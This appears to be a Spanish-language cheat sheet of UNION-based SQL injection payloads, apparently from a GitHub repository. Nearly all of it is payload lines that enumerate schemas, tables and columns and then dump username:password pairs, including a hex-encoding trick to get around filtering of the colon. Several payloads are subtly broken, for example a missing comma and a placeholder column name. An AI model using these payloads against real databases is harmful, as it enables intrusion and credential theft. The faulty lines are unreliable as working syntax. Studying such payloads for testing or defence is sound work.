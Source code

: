 ```
'union select 1,2,schema_name,4,5 from information_schema.schemata-- -

***podemos hacer que no lo ponga en un unico campo jugando con group concat para que nos volque toda la informacion posibles***

'union select 1,2group_concat(schema_name),4,5 from information_schema.schemata-- -

o poemos limitar de uno a uno

'union select 1,2,schema_name,4,5 from information_schema.schemata limit 1,2-- -

'union select 1,2,schema_name,4,5 from information_schema.schemata limit 2-- -
```

Una vez que conocemos las tablas vamos a hacer ejecucion de querys para ver las tablas existentes y supongamos que hay una tabla llamada users

## Ver tablas existentes - Dump Tables

```
'union select 1,2,table_name,4,5 from information_schema.tables-- -

***Especificar la base de datos en concreto añadiendo un where para ver la tabla users***

'union select 1,2,table_name,4,5 from information_schema.tables where table_schema='users'

```

## Ver columnas - Dump Tables
el proceso es parecido solo que añadiendo primeramente nuestra base de datos a dumpear, seguido de el nombre de la tabla a la cual queremos tener y acceder a la informacion 

```
'union select 1,2,column_name,4,5 from information_schema.columns where table_schema = 'DB' and table_name = 'tabla'

***Ejemplo con una Base de datos llamada public y la tabla llamada users***

'union select 1,2,column_name,4,5 from information_schema.columns where table_schema = 'public' and table_name='users'

'union select 1,2,group_concat(columna name),4,5 from information_schema.columns where table_schema='users'
```

## Dump Data Extract Information 

```
'union select NULL,group_concat(username,':',password) from users-- -

'union select 1,2,group_concat(username,':',password),4,5 from users-- -

'union select 1,2,concat(username,':',password),4,5 from users-- -

***En el caso de que no te deje representar los dos puntos los ponemos en hexadecimal***

'union select 1,2,group_concat(username,0x3a,password),4,5 from users-- -

***Representar una cadena exacta indicandole en hexadecimal el usuario o una query en especifica***

'union select 1,2,password,4,5 from users where username='admin'-- - 

'union select 1,2,password,4,5 from users where username='61646d696e'-- -
```